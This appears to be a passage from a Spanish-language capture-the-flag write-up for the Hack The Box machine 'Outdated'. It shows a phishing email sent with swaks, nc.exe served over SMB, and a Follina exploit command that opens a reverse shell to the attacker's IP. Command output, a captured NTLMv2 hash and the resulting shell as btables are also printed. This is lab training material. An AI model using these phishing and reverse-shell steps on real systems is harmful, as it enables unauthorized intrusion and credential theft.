 Como tiene el SMB abierto vamos a compartirnos el `netcat` y vamos a enviarnos una revshell.

Nos copiamos el netcat.
```shell
cp /opt/SecLists/Web-Shells/FuzzDB/nc.exe .
```

Servimos este archivo por SMB
```shell
sudo impacket-smbserver -smb2support smbFolder .
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
08/26/2024 10:20:57 PM: INFO: Config file parsed
```

Ahora enviamos el correo...
```shell
swaks --to itsupport@outdated.htb --from pointedsec@gmail.com --server mail.outdated.htb --body "http://10.10.14.125/" --header "Subject:Internal Web App Request"
```

Ahora cambiamos el comando del exploit para utilizar el `netcat` que estamos sirviendo por el SMB y mandarnos una revshell.
```shell
python3 follina_exploit.py -c "cmd.exe /c \\\\10.10.14.125\\smbFolder\\nc.exe 10
.10.14.125 443 -e cmd.exe"
```

Podemos ver que capturamos el hash NTLMv2 aunque no tenemos suerte crackeándolo.
```shell
btables::OUTDATED:aaaaaaaaaaaaaaaa:4f766168c3ca8028d88c51e98dc81a75:0101000000000000006ca9caf5f7da0135533e5bdf5a4d33000000000100100048006e0059005700760078006c006c000300100048006e0059005700760078006c006c000200100063006900710045005100470049005200040010006300690071004500510047004900520007000800006ca9caf5f7da0106000400020000000800300030000000000000000000000000200000a52701887bc37024800a419b24ee2e442f357d2961a11062e59a2a6f8b7aa81c0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100320035000000000000000000
```

Y conseguimos acceso.
```shell
sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.125] from (UNKNOWN) [10.129.229.239] 49849
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Users\btables\AppData\Local\Temp\SDIAG_9caee2d7-dad7-40ff-bc98-6b0868f102ae>whoami
whoami
outdated\btables
```

Ganamos acceso como el usuario `btables`
